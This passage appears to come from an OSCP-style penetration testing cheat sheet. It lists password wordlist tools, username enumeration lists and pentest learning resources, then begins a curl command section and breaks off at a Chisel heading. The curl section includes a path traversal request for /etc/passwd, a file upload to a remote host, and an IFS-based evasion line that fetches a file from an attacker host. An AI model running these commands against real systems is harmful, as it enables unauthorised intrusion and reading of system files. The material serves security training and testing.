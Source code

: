 ### Wordlists

| Name | URL |
| --- | --- |
| bopscrk | https://github.com/R3nt0n/bopscrk |
| CeWL | https://github.com/digininja/cewl |
| COOK | https://github.com/giteshnxtlvl/cook |
| CUPP | https://github.com/Mebus/cupp |
| Kerberos Username Enumeration | https://github.com/attackdebris/kerberos_enum_userlists |
| SecLists | https://github.com/danielmiessler/SecLists |

### Social Media Resources

| Name | URL |
| --- | --- |
| OSCP Guide 01/12 – My Exam Experience | https://www.youtube.com/watch?v=9mrf-WyzkpE&list=PLJnLaWkc9xRgOyupMhNiVFfgvxseWDH5x |
| Rana Khalil | https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/ |
| HackTricks | https://book.hacktricks.xyz/ |
| Hacking Articles | https://www.hackingarticles.in/ |
| IppSec (YouTube) | https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA |
| IppSec.rocks | https://ippsec.rocks/?# |
| 0xdf | https://0xdf.gitlab.io/

## Commands

### Basics

#### curl

```c
curl -v http://<DOMAIN>                                                        // verbose output
curl -X POST http://<DOMAIN>                                                   // use POST method
curl -X PUT http://<DOMAIN>                                                    // use PUT method
curl --path-as-is http://<DOMAIN>/../../../../../../etc/passwd                 // use --path-as-is to handle /../ or /./ in the given URL
curl --proxy http://127.0.0.1:8080                                             // use proxy
curl -F myFile=@<FILE> http://<RHOST>                                          // file upload
curl${IFS}<LHOST>/<FILE>                                                       // Internal Field Separator (IFS) example
```

#### Chisel
